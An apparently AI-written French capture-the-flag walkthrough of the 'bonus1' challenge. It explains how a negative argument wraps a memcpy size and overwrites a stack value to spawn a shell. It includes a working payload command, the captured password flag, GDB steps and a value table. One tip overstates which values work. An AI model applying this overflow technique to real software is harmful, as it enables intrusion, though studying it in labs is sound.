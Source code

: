 # Schéma d'exploitation — bonus1

Voici un schéma clair et visuel expliquant le flux d'exécution, la disposition de la pile, la logique des vérifications et **pourquoi** la valeur `-2147483637` marche (et pas `-2147483647`).

---

## 1) Vue d'ensemble du flux (résumé)

1. `atoi(argv[1])` → résultat dans `eax` puis `mov %eax, 0x3c(%esp)`
2. `cmpl $0x9, 0x3c(%esp)` → `jle` (signed) : si `eax <= 9` on continue, sinon return
3. `ecx = eax * 4` (via `lea 0(,%eax,4)`)
4. `dest = esp + 0x14`, `src = argv[2]`, `memcpy(dest, src, ecx)`
5. Compare 4 bytes à `0x3c(%esp)` avec la constante `0x574F4C46` ("FLOW" little-endian)
6. Si égal → prépare arguments et `execl(...)` → shell

---

## 2) Disposition simplifiée de la pile (au moment du memcpy)

```
esp + 0x00   ───────────────────────────────
             | (top de la pile)            |
             | ...                         |
esp + 0x14   ──> DEST (début de la zone memcpy)  <-- memcpy écrira depuis ici
             | byte 0 (dest[0])            |
             | byte 1                      |
             | ...                         |
             | byte 39                     |
esp + 0x3c   ──> ZONE DE COMPARAISON (4 bytes)  <-- cible à écraser par memcpy pour mettre "FLOW"
             | byte 40                     |
             | byte 41                     |
             | byte 42                     |
             | byte 43                     |
esp + 0x40   ───────────────────────────────
```

* Distance entre `dest` et la zone de comparaison = `0x3c - 0x14 = 0x28 = 40` octets.
* Pour écrire aussi les 4 octets `"FLOW"` il faut donc copier `40 + 4 = 44` octets.

---

## 3) Condition contradictoire (la clef)

* Pour *entrer* dans la branche qui appelle `memcpy`, il faut que `atoi(argv[1]) <= 9` (signed).
* Pour que `memcpy` atteigne `esp+0x3c` et écrit `"FLOW"`, il faut que `ecx = atoi(argv1) * 4 >= 44`.

Avec un entier **positif** normal, ces deux conditions sont incompatibles. Mais **avec des valeurs négatives** on profite du wrapping 32-bits après multiplication.

---

## 4) Explication du wrapping (exemples)

Calcul : `ecx = (atoi(argv1) * 4) mod 2^32`

| argv1 (décimal) | atoi (hex 32-bit) | atoi*4 (signed) | atoi*4 mod 2^32 → ecx |
| --------------- | ----------------: | --------------: | --------------------: |
| -2147483647     |        0x80000001 |     -8589934588 |       0x00000004  → 4 |
| -2147483637     |        0x8000000B |     -8589934548 |      0x0000002C  → 44 |

* `-2147483647 * 4` wrap → `4` octets seulement (trop petit)
* `-2147483637 * 4` wrap → `44` octets exactement (permet d'écrire jusqu'à `esp+0x3c` et poser `FLOW`)

---

## 5) Exemple de payload fonctionnel

```bash
./bonus1 -2147483637 $(python2 -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

* `argv1 = -2147483637` → `ecx = 44` → `memcpy(dest=esp+0x14, src=argv2, 44)`
* `argv2` contient 40 padding `A` puis `FLOW` → après memcpy `esp+0x3c` contient `F L O W`
* la comparaison `cmpl $0x574F4C46, 0x3c(%esp)` devient vraie et `execl` est appelée

---

## 6) Commandes GDB utiles pour vérification

1. Breakpoint avant l'appel `atoi` / comparaison :

```
gdb -q --args ./bonus1 -2147483637 "$(python2 -c 'print "A"*40 + "\x46\x4c\x4f\x57"')"
# dans gdb :
b *0x08048438   # juste avant call atoi
run
x/wx $esp+0x3c   # voir valeur stockée par atoi
```

2. Breakpoint juste avant `memcpy` (adresse du call memcpy = 0x8048473) :

```
b *0x08048473
run
# inspecter registres
p/x $eax   # atoi value
p/x $ecx   # taille calculée
# après memcpy
x/4bx $esp+0x3c   # inspecte si 'F','L','O','W' sont là
```

3. Si tu veux tracer le retour et voir l'appel `execl` :

```
b *0x08048499   # instruction call execl@plt
c
# si le breakpoint est atteint, execl va être appelé ensuite
```

---

## 7) Autres valeurs utiles (table rapide)

|       argv1 |                              ecx (taille copiée) |
| ----------: | -----------------------------------------------: |
|          -1 |     0xFFFFFFFC → très grand (risque de segfault) |
| -2147483648 |                         0x00000000 → 0 (inutile) |
| -2147483647 |                                                4 |
| -2147483646 |                                                8 |
| -2147483645 |                                               12 |
| -2147483637 | 44  <-- valeur idéale minimale pour écraser FLOW |

*Astuce :* Toute `argv1` telle que `(argv1 * 4) mod 2^32 >= 44` fonctionnera pour atteindre `esp+0x3c`.

---

## 8) Stratégies et précautions

* L'approche avec valeurs négatives est **fiable** si tu choisis la bonne valeur (comme -2147483637).
* Éviter valeurs provoquant `ecx` gigantesque (ex: -1) car `memcpy` risque le segfault avant d'avoir copié la zone voulue.
* Si tu veux automatiser : écrire un petit script qui calcule `ecx = (v*4) & 0xffffffff` et teste si `ecx >= 44`.

---

Si tu veux, je peux ajouter une **version visuelle** avec flèches et indices encore plus granulaires, ou générer le script Python qui teste automatiquement une plage de valeurs et affiche celles qui conviennent. Dis-moi ce que tu préfères.
